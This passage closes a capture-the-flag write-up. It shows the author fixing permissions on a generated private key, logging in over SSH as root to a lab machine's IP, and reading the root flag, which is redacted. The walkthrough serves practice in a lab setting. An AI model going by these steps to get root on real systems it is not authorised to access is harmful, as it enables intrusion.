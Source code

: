 Give it the right permissions:

```shell
sudo chmod 600 id_rsa
```

And now we will be able to get access as root running the following command:

```shell
sudo ssh -i id_rsa root@10.10.121.49
```

It worked! We got access as root using an id_rsa key we created with the id.sh bash script:

```shell
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt
REDACTED
```